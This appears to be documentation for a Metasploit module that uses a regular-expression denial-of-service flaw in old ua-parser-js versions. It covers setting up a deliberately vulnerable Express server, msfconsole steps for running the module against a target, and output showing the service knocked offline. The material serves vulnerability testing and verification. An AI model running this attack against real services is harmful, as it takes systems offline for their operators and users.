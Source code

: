 ## Vulnerable Application
This auxiliary module exploits a Regular Expression Denial of Service vulnerability
in the npm module `ua-parser-js`.  Versions before 0.7.16 are vulnerable.  
Any application that uses a vulnerable version of this module and calls the `getOS`
or `getResult` functions will be vulnerable to this module.  An example server is provided
below.

```
npm i ua-parser-js@0.7.15
```

## Verification Steps

Example steps in this format (is also in the PR):
1. Create a new directory for test application.
2. Copy below example server into test application directory as `server.js`.
3. Run `npm i express` to install express in the test application directory.
4. To test vulnerable versions of the module, run `npm i ua-parser-js@0.7.15` to install a vulnerable version of ua-parser-js.
5. To test non-vulnerable versions of the module, run `npm i ua-parser-js` to install the latest version of ua-parser-js.
6. Once all dependencies are installed, run the server with `node server.js`.
7. Open up a new terminal.
8. Start msfconsole.
9. `use auxiliary/dos/http/ua_parser_js_redos`.
10. `set RHOSTS <IP>`.
11. `run`.
12. In vulnerable installations, Module should have positive output and the test application should accept no further requests.
13. In non-vulnerable installations, module should have negative output and the test application should accept further requests.

## Scenarios

### ua-parser-js npm module version 0.7.15

Expected output for successful exploitation:

```
[*] Testing Service to make sure it is working.
[*] Test request successful, attempting to send payload
[*] Sending ReDoS request to 192.168.3.24:3000.
[*] No response received from 192.168.3.24:3000, service is most likely unresponsive.
[*] Testing for service unresponsiveness.
[+] Service not responding.
[*] Auxiliary module execution completed
```

### Example Vulnerable Application

```
// npm i express
// npm i ua-parser-js@0.7.15 (vulnerable)
// npm i ua-parser-js (non-vulnerable)

const express = require('express')
const uaParser = require('ua-parser-js');
const app = express()

app.get('/', (req, res) => {
  var parser = new uaParser(req.headers['user-agent']);
  res.end(JSON.stringify(parser.getResult()));
});

app.listen(3000, '0.0.0.0', () => console.log('Example app listening on port 3000!'))
```
